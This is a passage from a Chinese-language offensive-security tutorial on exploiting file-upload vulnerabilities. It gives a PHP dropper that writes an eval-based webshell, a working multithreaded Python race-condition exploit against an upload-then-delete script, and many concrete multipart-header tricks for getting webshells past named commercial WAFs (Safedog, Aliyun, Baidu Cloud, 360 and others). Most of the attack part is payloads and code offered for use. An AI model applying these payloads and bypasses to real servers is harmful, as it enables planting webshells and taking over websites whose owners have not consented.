1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php $allowtype = array ("gif" ,"png" ,"jpg" );$size = 10000000 ;$path = "./" ;$filename = $_FILES ['file' ]['name' ];if (is_uploaded_file ($_FILES ['file' ]['tmp_name' ])){ if (!move_uploaded_file ($_FILES ['file' ]['tmp_name' ],$path .$filename )){ die ("error:can not move" ); } }else { die ("error:not an upload file！" ); } $newfile = $path .$filename ;echo "file upload success.file path is: " .$newfile ."\n<br />" ;if ($_FILES ['file' ]['error' ]>0 ){ unlink ($newfile ); die ("Upload file error: " ); } $ext = array_pop (explode ("." ,$_FILES ['file' ]['name' ]));if (!in_array ($ext ,$allowtype )){ unlink ($newfile ); die ("error:upload the file type is not allowed，delete the file！" ); } ?>
首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，我们的利用思路是这样的，首先上传一个php文件，内容为：
1 <?php fputs(fopen("./info.php", "w"), '<?php @eval($_POST["drops"]) ?>'); ?>Copy
当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。利用代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 import osimport requestsimport threadingclass RaceCondition (threading.Thread): def __init__ (self ): threading.Thread.__init__(self) self.url = "http://127.0.0.1:8080/upload/shell0.php" self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php" def _get (self ): print ('try to call uploaded file...' ) r = requests.get(self.url) if r.status_code == 200 : print ("[*]create file info.php success" ) os._exit(0 ) def _upload (self ): print ("upload file....." ) file = {"file" :open ("shell0.php" ,"r" )} requests.post(self.uploadUrl, files=file) def run (self ): while True : for i in range (5 ): self._get() for i in range (10 ): self._upload() self._get() if __name__ == "__main__" : threads = 20 for i in range (threads): t = RaceCondition() t.start() for i in range (threads): t.join()
关于这方面在ctf中比较常见，参考：https://blog.csdn.net/iamsongyu/article/details/83346260?utm_source=app
3.cms、编辑器漏洞 1.CMS漏洞 针对不同CMS存在的上传漏洞进行绕过，这个体现出前期信息收集的重要性了，得到各种信息后百度谷歌相应的漏洞。
2.编辑器漏洞 比如FCK，Ewebeditor等，可以针对编辑器的漏洞进行绕过。
还可参考：https://navisec.it/%e7%bc%96%e8%be%91%e5%99%a8%e6%bc%8f%e6%b4%9e%e6%89%8b%e5%86%8c/
4.bypassWAF 前言
一般bypasswaf有四个方面
从架构层Bypass WAF 。
从资源限角度bypass WAF。
从协议层面bypass WAF。
从规则缺陷bypass WAF。
但是就文件上传来说，本人目前还没有深入到怎样从架构或者资源层面绕过waf，所以本文均从协议、规则层面来绕过waf。有关bypasswaf的具体详情参考：https://weibo.com/ttarticle/p/show?id=2309404007261092631700&sudaref=www.google.com.hk&display=0&retcode=6102，这是一篇非常不错的文章。
waf位置
1.waf校验 上传文件时waf检查文件的位置：
请求的url
Boundary边界
MIME类型
文件扩展名
文件内容
2.bypasswaf 1.后缀 常见的后缀黑名单
1 2 3 4 asp|asa|cer|cdx|aspx|ashx|ascx|asax php|php2|php3|php4|php5|asis|htaccess htm|html|shtml|pwml|phtml|phtm|js|jsp vbs|asis|sh|reg|cgi|exe|dll|com|bat|pl|cfc|cfm|ini
这算是比较全的黑名单了吧，一般来说，不存在黑名单绕过的情况，除非开发人员水的一逼。。。
其实这一部分和服务端校验后缀差不多 。
2.HTTP数据包 目前，市面上常见的是解析文件名，少数WAF是解析文件内容，比如长亭。
1.常见waf绕过 安全狗绕过
1.绕过思路：对文件的数据包进行处理。
1 2 关键点在这里Content-Disposition: form-data; name="file"; filename="ian.php" 将form-data; 修改为~form-data;
2.通过替换大小写来进行绕过
1 2 3 4 5 Content-Disposition: form-data; name="file"; filename="yjh.php" Content-Type: application/octet-stream 将Content-Disposition 修改为content-Disposition 将 form-data 修改为Form-data 将 Content-Type 修改为content-Type
3.通过删减空格来进行绕过
1 2 3 4 5 Content-Disposition: form-data; name="file"; filename="yjh.php" Content-Type: application/octet-stream 将Content-Disposition: form-data 冒号后面 增加或减少一个空格 将form-data; name="file"; 分号后面 增加或减少一个空格 将 Content-Type: application/octet-stream 冒号后面 增加一个空格
4.通过字符串拼接绕过
1 2 3 看Content-Disposition: form-data; name="file"; filename="yjh3.php" 将 form-data 修改为 f+orm-data 将 from-data 修改为 form-d+ata
5.双文件上传绕过
1 2 3 4 5 6 <form action="https://www.xxx.com/xxx.asp(php)" method="post" name="form1" enctype="multipart/form‐data"> <input name="FileName1" type="FILE" class="tx1" size="40"> <input name="FileName2" type="FILE" class="tx1" size="40"> <input type="submit" name="Submit" value="上传"> </form>
6.HTTP header 属性值绕过
1 2 3 Content-Disposition: form-data; name="file"; filename="yjh.php" 我们通过替换form-data 为*来绕过 Content-Disposition: *; name="file"; filename="yjh.php"
7.HTTP header 属性名称绕过
1 2 3 4 5 6 源代码: Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png 绕过内容如下： Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png C.php" 删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".
8.等效替换绕过
1 2 3 4 5 原内容： Content-Type: multipart/form-data; boundary=---------------------------471463142114 修改后: Content-Type: multipart/form-data; boundary =---------------------------471463142114 boundary后面加入空格。
9.修改编码绕过
1 使用UTF-16、Unicode、双URL编码等等
WTS-WAF 绕过上传
1 2 3 4 5 原内容： Content-Disposition: form-data; name="up_picture"; filename="xss.php" 添加回车 Content-Disposition: form-data; name="up_picture"; file name="xss.php"
百度云上传绕过
1 2 百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。 Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"
阿里云上传绕过
1 2 3 4 5 源代码： Content-Disposition: form-data; name="img_crop_file"; filename="1.jpg .Php"Content-Type: image/jpeg 修改如下： Content-Disposition: form-data; name="img_crop_file"; filename="1.php" 没错，将=号这里回车删除掉Content-Type: image/jpeg即可绕过。
360主机上传绕过
1 2 3 4 5 源代码: Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png 绕过内容如下： Content- Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png Content-Disposition 修改为 Content-空格Disposition
2.常规绕过手法 MIME类型绕过
1 上传木马时，提示格式错误。直接抓包修改Content-Type 为正确的格式尝试绕过
CONTENT-LENGTH绕过
1 针对这种类型的验证，我们可以通过上传一些非常短的恶意代码来绕过。上传文件的大小取决于，Web服务器上的最大长度限制。我们可以使用不同大小的文件来fuzzing上传程序，从而计算出它的限制范围。
下面内容，都是基于文件名解析。
垃圾数据填充绕过
有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。
构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验
将垃圾数据放在数据包最开头，这样便可以绕过对文件名的校验
将垃圾数据加到Content-Disposition参数后面，参数内容过长，可能会导致waf检测出错。
多个filename
早期版本安全狗，可以多加一个filename
1 Content-Disposition: form-data; name="file_x"; filename="test.txt"; filename="test.php"
最终上传成功的文件名是test.php。但是由于解析文件名时，会解析到第一个。正则默认都会匹配到第一个。
交换name和filename的顺序
规定Content-Disposition必须在最前面，所以只能交换name和filename的顺序。有的WAF可能会匹配name在前面，filename在后面，所以下面姿势会导致Bypass。
1 Content-Disposition: form-data; filename="xx.php"; name=file_x
修改引号
1 2 3 4 5 Content-Disposition: form-data; name=file_x; filename="xx.php" Content-Disposition: form-data; name=file_x; filename=xx.php Content-Disposition: form-data; name="file_x"; filename=xx.php Content-Disposition: form-data; name='file_x'; filename='xx.php' Content-Disposition: form-data; name=file_x; filename="xx.php""
单引号、双引号、不要引号，都能上传。
大小写
对这三个固定的字符串进行大小写转换
Content-Disposition
name
filename
空格
在: ; =添加1个或者多个空格。
去掉或修改Content-Disposition值
有的WAF在解析的时候，认为Content-Disposition值一定是form-data，造成绕过。
1 Content-Disposition: name='file_x'; filename='xx.php'
多个boundary
最后上传的文件是test.php而非test.txt，但是取的文件名只取了第一个就会被Bypass。
1 2 3 4 5 6 7 ------WebKitFormBoundaryj1oRYFW91eaj8Ex2 Content-Disposition: form-data; name="file_x"; filename="test.txt" Content-Type: text/javascript ------WebKitFormBoundaryj1oRYFW91eaj8Ex2 Content-Disposition: form-data; name="file_x"; filename="test.php" Content-Type: text/javascript
多个分号
文件解析时，可能解析不到文件名，导致绕过。
1 Content-Disposition: form-data; name="file_x";;; filename="test.php"
Header在boundary前添加任意字符
PHP支持，JAVA报错
1 Content-Type: multipart/form-data; bypassboundary=----WebKitFormBoundaryj1oRYFW91eaj8Ex2
** filename换行**
PHP支持，Java不支持
1 2 Content-Disposition: form-data; name="file_x"; file name="test.php"
name和filename添加任意字符串
PHP支持，Java不支持
1 Content-Disposition: name="file_x"; bypass waf upload; filename="test.php";
3.文件内容 针对文件内容检测的绕过，一般有两种方式，
另外呢就是对敏感的函数进行检测，比如exec()、eval()这些函数，对应的解决方法是进行替换或者”变形“
POST/GET
有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。
5.总结 现在基本上很难遇到能够上传恶意文件的漏洞了，一般是结合cms漏洞和各种cve(我一般是这样的、、、)，因为很难遇到逻辑有问题的代码了，这就体现了前期信息收集的重要性了。
参考：https://xz.aliyun.com/t/2657#toc-13
http://www.libpng.org/pub/png/spec/1.2/PNG-Chunks.html#C.Critical-chunks
https://secgeek.net/bookfresh-vulnerability/
https://zhzhdoai.github.io/2019/07/10/PHP%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/
https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/
https://www.secpulse.com/archives/117827.html
https://www.anquanke.com/post/id/164561#h2-1
https://www.anquanke.com/post/id/153376
https://masterxsec.github.io/2017/04/26/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%80%BB%E7%BB%93/
https://www.dazhuanlan.com/2019/11/04/5dbfacb696546/
https://mp.weixin.qq.com/s/lM8XeOpxP1871U_3EVPCDg
https://choge.top/2020/02/29/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%AB%98%E7%BA%A7%E5%88%A9%E7%94%A8/
https://www.anquanke.com/post/id/164561
https://paper.seebug.org/680/
https://www.hacking8.com/MiscSecNotes/bypass-waf-cookbook.html
https://weibo.com/ttarticle/p/show?id=2309404007261092631700&sudaref=www.google.com.hk&display=0&retcode=6102
https://www.cnblogs.com/-qing-/p/10832850.html
https://huyuanzhi2.github.io/2020/04/02/bypass-waf-upload-jsp/